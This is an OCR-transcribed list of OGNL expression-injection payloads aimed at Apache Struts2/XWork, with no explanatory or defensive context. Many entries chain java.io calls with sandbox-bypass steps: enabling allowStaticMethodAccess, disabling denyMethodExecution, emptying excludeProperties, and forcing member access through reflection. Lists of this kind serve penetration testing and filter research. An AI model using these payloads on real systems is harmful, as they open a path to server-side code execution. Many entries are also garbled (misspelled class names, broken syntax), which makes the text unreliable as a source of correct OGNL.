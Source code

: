 * %{@java.io.BufferedIoutStream.flush}
* %{@java.io.File.getCanonicalFile(C:\Windows\appcompat) }
* %{#excludeProperties=@java.util.Collections@EMPTY_SET,@Java.io.File@sync()}
* %{@java.io.FileInputStream.close()}
* %{@java.io.FileOutputStream.getFD()}
* %{#_memberAccess.allowStaticMethodAccess=true,@java.io.FileOutputStream@hashCode()}
* %{#excludeProperties=@java.util.Collections@EMPTY_SET,@java.io.FileOutputStream@hashCode() }
* %{@java.io.FilePermission.hashCode()}
* %{@java.io.FilterInputStream.close()}
* %{#_memberAccess.allowStaticMethodAccess=true,#excludeProperties=@java.util.Collections@EMPTY_SET@java.io.FilteroutStream@close() }
* %{@java.io.FilterReader.reset() }
* %{@java.io.FilterWriter.close()}
* %{#context["xwork.MethodAccessor.denyMethodExecution"]=false ，@java.io.FilterWriter@available()}
* %{@java.io.InputStream.close() }
* %{#excludeProperties=@java.util.Collections@EMPTY_SET,@java.io.InputStreamReader.getEncoding()}
* %{@java.io.InputStreamReader.getEncoding() }
* %{@java.io.InputStreamReader.read()}
* %{#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.io.InputStreamReader@close()}
* %{@java.io.InputStreamReader.ready()}
* %{@java.io.LineNumberInputStream.getLineNumber()}
* %{#_memberAccess.allowStaticMethodAccess=true,@java.io.LineNumberReader@readLine()}
* %{@java.io.ObjectInputStream.readBoolean()}
* %{#a={"1,2,3",@java.io.ObjectInputStream.getField.defaulted(a)}}
* %{@java.io.ObjectOutputStream.defaultWriteObject()}
* %{@java.io.ObjectStreamClass.getName()}
* %{@java.io.ObjectStreamField.getOffset()}
* %{#a={"jygfjgjj",java.io.ObjectStreamField.isPrimitive(a)}}
* %{@java.io.PipedOutputStream.write(5)}
* %{#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@java.io.PrintStream@close()}
* %{@java.io.PrintStream.flush()}
* %{#a={"hello",java.io.PushbackInputStream.available(a)}}
* %{@java.io.PushbackReader.close()}
* %{@java.io.PushbackReader.ready() }
* %{#_memberAccess.allowStaticMethodAccess=true,@java.io.RandomAccessFile.close()}
* %{@java.io.Reader.close() }
* %{#a={"fawefwafw"}@java.io.StringReader.markSupported(a)}
* %{@java.io.StringWriter.flush()}
* %{#a={java.io.Writer.write("hello ") }}
* %{@java.io.BufferedInputStream}
* %{@java.io.BufferedOutputStream}
* %{@java.io.BufferedReader}
* %{@java.io.BufferedWriter}
* %{@java.io.ByteArrayInputStream}
* %{@java.io.ByteArrayOutputStream}
* %{@java.io.CharArrayReader}
* %{@java.io.CharArrayWriter}
* %{@java.io.Console}
* %{@java.io.DataInputStream}
* %{@java.io.DataOutputStream}
* %{@java.io.File}
* %{@java.io.FileDescriptor}
* %{@java.io.FileInputStream}
* %{@java.io.FileOutputStream}
* %{@java.io.FilePermission}
* %{@java.io.FileReader}
* %{@java.io.FileWriter}
* %{@java.io.FilterInputStream}
* %{@java.io.FilterOutputStream}
* %{@java.io.FilterReader}
* %{@java.io.FilterWriter}
* %{@java.io.InputStream}
* %{@java.io.InputStreamReader}